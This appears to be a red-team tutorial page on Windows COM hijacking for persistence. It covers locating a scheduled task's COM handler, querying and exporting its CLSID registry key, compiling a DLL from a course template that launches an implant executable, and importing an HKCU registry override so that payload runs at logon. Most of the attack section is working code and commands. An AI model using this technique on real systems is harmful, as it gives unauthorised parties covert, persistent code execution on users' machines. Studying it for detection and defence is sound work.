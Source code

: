 # COM Hijacking

## <mark style="color:red;">COM</mark>

> The Microsoft Component Object Model (COM) is an interface standard that allows the software components to interact and communicate with each other’s code without knowledge of their internal implementation.

#### In simple words, COM is a system that helps developers build libraries which can co-operate with other apps developed with other languages.

OM objects are identified by their globally unique identifiers (GUIDs) known as class identifiers (CLSIDs) and interface identifiers (IIDs) and they are registered in registry hives.&#x20;

The merged registry hive HKCR contains the combined information of HKCU and HKLM.

```
HKEY_CURRENT_USER\Software\Classes\<CLSID>  (Per-User)

HKEY_LOCAL_MACHINE\Software\Classes\<CLSID> (System-Wide)
```

{% hint style="info" %}
COM usually lives in a DLL, sometimes as a EXE.&#x20;

It can also live on a remote machine.
{% endhint %}

When COM is present as a DLL, the process of COM loading looks like this:

![](<../../../.gitbook/assets/image (130).png>)

When COM is a EXE file the process will look like this:

![](<../../../.gitbook/assets/image (106).png>)

and if the COM object is on a remote machine:

![](<../../../.gitbook/assets/image (87).png>)

## <mark style="color:red;">COM Hijacking</mark>

One way to hijack the COM is by modifying the registry key in `HKEY_CUTRRENT_USER.`

![](<../../../.gitbook/assets/image (194).png>)

to find hijackable COM objects we can look in scheduled tasks:

```
schtasks /query /xml > c:\RTO\PERS\01.USER\tasks.xml
```

we are looking for 2 things, in the `<Exec>` section there should be something called `<ComHandler>` instead of a binary path and in the  `<Triggers>` section we want a `<LogonTrigger>`.&#x20;

look for `<ComHandler>` in the output file, this will point to a specific class ID.&#x20;

after finding a suitable handler:

![](<../../../.gitbook/assets/image (64).png>)

{% hint style="warning" %}
#### note that the delay here is 5 minutes.
{% endhint %}

query this ID in registry:

```
reg query "HKCR\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}"

# to see if the key is in current user:
reg query "HKCU\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}"

# to see if the key is in local machine:
reg query "HKLM\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}"
```

![](<../../../.gitbook/assets/image (199).png>)

#### so the key is in local machine hive, if we put something in current user we can hijack that COM object.

we can export the target registry key as 64 bit :&#x20;

```
reg export "HKLM\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}" c:\tsk-orig.reg /y /reg:64
```

the output is something like this:

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}]
@="Work Folder Logon Trigger Class"

[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}\InprocServer32]
@="C:\\Windows\\System32\\WorkFoldersShell.dll"
```

then use this template for COM hijacking:

{% code title="wrkFolderShell.cpp" %}
```cpp
/*

 Red Team Operator course code template
 COM hijacking template
 
 author: reenz0h (twitter: @sektor7net)

*/
#include <Windows.h>
#include <combaseapi.h>


BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    STARTUPINFO info={sizeof(info)};
    PROCESS_INFORMATION processInfo;

    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;    
	case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

HRESULT STDAPI DllGetClassObject(__in REFCLSID rclsid,
								__in REFIID riid,
								__deref_out LPVOID FAR* ppv) { 
	STARTUPINFO info={sizeof(info)};
    PROCESS_INFORMATION processInfo;
	
	CreateProcess(
				"c:\\RTO\\PERS\\implant\\implant.exe", 
				"", NULL, NULL, TRUE, 0, NULL, NULL, 
				&info, &processInfo);
	
	return S_OK;  
} 



/*

typedef HRESULT(WINAPI * tDllGetClassObject)(REFCLSID rclsid, REFIID riid, LPVOID* ppv);
tDllGetClassObject pDllGetClassObject;

HRESULT STDAPI DllGetClassObject(REFCLSID rclsid,
								 REFIID riid,
								 LPVOID FAR* ppv) { 
	STARTUPINFO info={sizeof(info)};
    PROCESS_INFORMATION processInfo;
	HMODULE hOrigDLL;
	
	CreateProcess(
				"c:\\RTO\\PERS\\implant\\implant.exe", 
				"", NULL, NULL, TRUE, 0, NULL, NULL, 
				&info, &processInfo);
	
	hOrigDLL = LoadLibrary("C:\\Windows\\System32\\WorkFoldersShell.dll");
	pDllGetClassObject = (tDllGetClassObject) GetProcAddress(hOrigDLL, "DllGetClassObject");
	if (!pDllGetClassObject)
		return S_FALSE;
	
	HRESULT hRes = pDllGetClassObject(rclsid, riid, ppv);
	
	return hRes;
} 
*/cpp
```
{% endcode %}

{% code title="wrkFolderShell.def" %}
```cpp
LIBRARY
EXPORTS
  DllGetClassObject PRIVATE
```
{% endcode %}

compile it with:

{% code title="compile.bat" %}
```batch
@ECHO OFF

cl.exe /W0 /D_USRDLL /D_WINDLL wrkFoldersShell.cpp wrkFoldersShell.def /MT /link /DLL /OUT:wrkFoldersShell.dll
```
{% endcode %}

```
compile.bat
```

![](<../../../.gitbook/assets/image (161).png>)

now the DLL is ready, we should implant it in the registry.

change the original key to `CURRENT_USER` and change the path to DLL:

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}]
@="Work Folder Logon Trigger Class"

[HKEY_CURRENT_USER\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}\InprocServer32]
@="C:\\Users\rto\Desktop\\WorkFoldersShell.dll"
```

save the new registry then import it to the hive.

```
reg import c:\tsk.reg /reg:64
```

check out:

```
reg query "HKCU\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}\InProcServer32" /reg:64
```

![](<../../../.gitbook/assets/image (209).png>)

now we have to wait for the user to relogin or reboot the machine.

## <mark style="color:red;">Resources</mark>

{% embed url="https://cyberstruggle.org/com-hijacking-for-persistence" %}

{% embed url="https://attackiq.com/2020/03/26/component-object-model-hijacking" %}

{% embed url="https://pentestlab.blog/2020/05/20/persistence-com-hijacking" %}
